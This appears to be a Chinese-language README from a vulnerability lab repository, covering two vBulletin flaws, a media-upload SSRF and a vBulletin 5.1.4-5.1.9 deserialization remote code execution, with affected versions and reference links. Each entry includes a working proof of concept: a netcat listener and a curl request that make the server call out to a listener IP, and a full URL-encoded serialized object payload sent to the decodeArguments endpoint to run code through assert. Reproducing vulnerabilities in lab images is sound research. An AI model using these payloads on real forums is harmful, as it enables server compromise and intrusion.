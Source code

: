 ## vBulletin MEDIA UPLOAD SSRF 漏洞

测试镜像

- src/vbulletin/v5.1.4

影响版本

- vBulletin <= 5.2.2
- vBulletin <= 4.2.3
- vBulletin <= 3.8.9

参考链接

- [vBulletin MEDIA UPLOAD SSRF 漏洞分析](https://paper.seebug.org/24/)

Poc

监听本地端口：

`sudo nc -lvvp 80`

访问地址：

```
curl -d "url=http://172.17.0.1:80/hello_ssrf" "http://172.17.0.2/link/getlinkdata"
```

172.17.0.1为监听的IP地址，172.17.0.2为网站地址



## vBulletin 5 全版本远程代码执行漏洞

测试镜像

- src/vbulletin/v5.1.4

影响版本

- vBulletin 5.1.4-5.1.9

参考链接

- [vBulletin 5 全版本远程代码执行漏洞分析](https://www.anquanke.com/post/id/82870)

Poc

使用`exp.php`生成payload，作为数参数访问：

`http://127.0.0.1/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D`

